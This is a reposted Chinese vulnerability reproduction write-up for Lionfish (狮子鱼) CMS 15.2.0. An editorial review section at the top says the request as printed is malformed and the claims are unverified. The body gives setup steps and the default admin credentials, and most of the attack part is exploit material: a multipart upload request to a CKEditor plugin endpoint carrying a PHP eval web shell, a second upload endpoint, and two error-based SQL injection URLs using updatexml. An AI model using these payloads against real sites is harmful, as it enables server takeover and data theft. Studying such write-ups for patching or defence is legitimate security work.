







## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：publicCKeditor/wxappupload andtwoAPIgoodsSQLclaimed;PHPuploadexec;initiallabadmincredentials

- **适用与权限边界（1）**：上传multipart缺name/filename且结束边界长破折号不是--，原样请求不可用。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **事实待核（2）**：四个入口分别对应706/707/711/712，按多漏洞关联，测试15.2.0可补其他无版本文但不能泛化所有。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **适用与权限边界（3）**：默认admin888只是提供的压缩包环境，源需公众号领取未hash锁定。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **事实待核（4）**：SQL/第二上传只有URL短述无各自源码/完整响应，缺官方修复。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# 狮子鱼 CMS 多个漏洞复现

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/kr8SGlvTqcG3pqOqpVKTTg)

漏洞复现
----

<table width="NaN"><thead><tr><th>info</th><th>desc</th></tr></thead><tbody><tr><td height="32">公开日期</td><td height="32">2021-06-08</td></tr><tr><td height="32">危害级别</td><td height="32">高</td></tr><tr><td height="32">影响产品</td><td height="32">狮子鱼 CMS</td></tr><tr><td height="32">漏洞类别</td><td height="32">任意文件上传、SQL 注入</td></tr><tr><td height="32">漏洞类型</td><td height="32">通用型漏洞</td></tr><tr><td height="32">参考链接</td><td height="32">https://www.linuxlz.com/aqld/2251.html</td></tr><tr><td height="32">漏洞 poc</td><td height="32">见下文</td></tr></tbody></table>

环境搭建
----

### 基础环境

*   网站环境：PHPstudy
    
*   狮子鱼 CMS 版本：15.2.0
    
*   源码获取：请在公众号后台回复【狮子鱼】获取压缩包
    

### 安装

*   压缩包解压后，将名为后端的文件夹复制到 PHPstudy 目录下，再将文件夹名改成英文
    



*   新建一个数据库
    



点击 MySQL-front 打开 MySQL，新建一个数据库，在数据库中导入 SQL 文件  



*   修改网站数据配置文件  
    改成英文名的后端文件夹中修改数据库的配置：
    

```
Modules/Common/Conf/db.php
Modules/Seller/Conf/db.php
```



*   后台管理信息  
    后台地址：域名 / seller.php  
    默认账号：`admin`  
    默认密码：`admin888`
    

### 任意文件上传漏洞

*   漏洞点：  
    `http://******/Common/ckeditor/plugins/multiimg/dialogs/image_upload.php`
    
*   访问，用 burp 抓包，将报文传输方式改成 POST，再将 host 之后的报文内容修改成以下内容，返回包暴露上传路径：
    

```
Content-Type: multipart/form-data;boundary=----WebKitFormBoundary8UaANmWAgM4BqBSs
Content-Length: 209

------WebKitFormBoundary8UaANmWAgM4BqBSs
Content-Disposition: form-data; 
Content-Type: image/gif

<?php @eval($_POST[test]);?>
------WebKitFormBoundary8UaANmWAgM4BqBSs—
```



*   使用蚁剑连接 shell 测试，成功连接
    



*   另一个任意文件上传漏洞点：  
    `http://********/wxapp.php?controller=Goods.doPageUpload`
    

### SQL 注入漏洞：

*   注入点  
    `http://**********/index.php?s=apigoods/get_goods_detail&id=1%20and%20updatexml(1,concat(0x7e,database(),0x7e),1)`  
    (报错注入)
    



*   另一个 SQL 注入漏洞点：  
    `http://**********/index.php?s=api/goods_detail&goods_id=1%20and%20updatexml(1,concat(0x7e,database(),0x7e),1)`
    


  

secteam 公众号

  

微信搜索 : secteam

长按识别二维码关注


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
